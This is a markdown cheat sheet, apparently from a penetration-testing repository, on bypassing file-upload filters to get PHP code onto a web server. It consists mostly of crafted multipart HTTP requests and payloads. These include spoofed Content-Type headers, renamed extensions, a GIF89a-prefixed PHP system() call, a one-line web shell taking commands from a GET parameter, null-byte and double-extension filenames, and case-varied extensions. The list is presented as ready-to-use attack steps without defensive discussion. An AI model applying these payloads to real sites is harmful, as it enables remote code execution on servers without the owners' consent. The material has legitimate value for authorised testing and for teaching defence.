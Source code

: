 # Bypass File Upload
1. Change the ContentType
```
POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```
Change the Content-Type
```
POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/jpeg
```

2. Try to change the extension when send the request, for example in here you cant upload file with ext php but you can upload jpg file
```
POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php.jpg"
Content-Type: application/x-php
```
Change the request to this
```
POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```

3. Upload the payload, but start with GIF89a; and
```
POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif

GIF89a; <?php system("id") ?>
```
And dont forget to change the content-type to image/gif

4. Bypass content length validation, it can be bypassed using small payload
```
(<?=`$_GET[x]`?>)
```

5. Using null byte in filename
```
file.php%00.gif
```

6. Using double extensions for the uploaded file
```
file.jpg.php
```

7.  Uploading an unpopular php extensions (php4,php5,php6,phtml)
```
file.php5
```

8. Try to randomly capitalizes the file extension
```
file.pHP5
```

9. Mix the tips!
